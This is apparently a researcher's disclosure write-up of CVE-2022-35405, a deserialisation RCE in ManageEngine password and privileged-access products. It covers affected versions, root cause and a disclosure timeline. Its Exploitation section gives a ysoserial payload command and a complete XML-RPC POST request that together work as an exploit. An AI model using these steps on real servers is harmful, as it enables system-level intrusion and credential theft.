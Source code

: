 ```yaml
---
layout: article
title:  "CVE-2022-35405 Manage engines RCE (Password Manager Pro, PAM360 and Access Manager Plus)"
tags:  eng cve
---
```



<img class="image image--lg" src="/assets/cve202235405/engine.png"/>

"This remote code execution vulnerability could allow remote attackers to execute arbitrary code on affected installations of Password Manager Pro, PAM360 and Access Manager Plus. Authentication is not required to exploit this vulnerability in Password Manager Pro and PAM360 products."


| Product Name         | Affected Version(s)    |
|----------------------|------------------------|
| PAM360               | 5.5 (5500) and below   |
| Password Manager Pro | 12.1 (12100) and below |
| Access Manager Plus  | 4.3 (4302) and below   | (authenticated)

This vulnerability happens due to a vulnerable version of ApacheOfBiz (CVE-2020-9496) that exposes an `XML-RPC` endpoint at `/webtools/control/xmlrpc` in case of Manage Engine products this endpoint is `/xmlrpc`.  This endpoint can deserealizes java objects, as part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands.

First this vulnerability was found in Password Manager Pro, however after the report and disclosure of the Security Fixes it was identified that the vulnerability also existed in PAM360 and Access Manager Plus installations. 

On the PMP context, the RCE has nt authority/system permissions on the affected server and can be used to enter internal networks, compromise data on the server or crash or shutdown the whole server and applications.

More information about CVE-2020-9496 exploitation can be found [here](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496) or [here](https://www.cnblogs.com/ph4nt0mer/p/13576739.html)

### **Exploitation**
For generate java serialized object payload, [Ysoserial](https://github.com/frohoff/ysoserial) can be used:
It is needed that the ysoserial tool library versions match the server org.apache.commons.beanutils version, if the versions don't match: `Failed to read result object: org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962 ` (something like that) follow the instructions of [this article](https://rhinosecuritylabs.com/research/java-deserializationusing-ysoserial/) to bypass that finding the exact server lib version by serialVersionUID and changing the pom.xml of ysoserial.

```bash
java -jar ysoserial-version.jar CommonsBeanutils1 'command' | base64 | tr -d "\n"
```
![Untitled](/assets/cve202235405/1.png)

Replace the `[base64-payload]` and send the request:

```html
POST /xmlrpc HTTP/1.1
Host: host-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![Untitled](/assets/cve202235405/2.png)

![Untitled](/assets/cve202235405/3.png)

If the response was `InvocationTargetException: java.lang.reflect.InvocationTargetException` it worked, this exception was trigged after the execution of the payload.

I wrote an exploit to make it easier to explore and you can find it here: [https://github.com/viniciuspereiras/CVE-2022-33405/](https://github.com/viniciuspereiras/CVE-2022-35405/)

#### Extra
I'd like to thank the security community, although I can't disclose vulnerability information, there were some researchers who managed to go after it and come up with a working poc, exploits and metasploit modules.
If you want to take a look:
- [https://xz.aliyun.com/t/11578](https://xz.aliyun.com/t/11578)
- [https://packetstormsecurity.com/files/167918/Zoho-Password-Manager-Pro-XML-RPC-Java-Deserialization.html](https://packetstormsecurity.com/files/167918/Zoho-Password-Manager-Pro-XML-RPC-Java-Deserialization.html)

Nuclei template:
- [https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-35405.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-35405.yaml)

### Coordinated Disclosure Timeline
-   06/21/2022: Report sent to vendor.
-   06/21/2022: Manage Engine acknowledges the issue.
-   06/24/2022: Issue fixed [Release note](https://www.manageengine.com/products/passwordmanagerpro/release-notes.html#12101)
-   07/11/2022: [CVE-2022-35405](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35405)

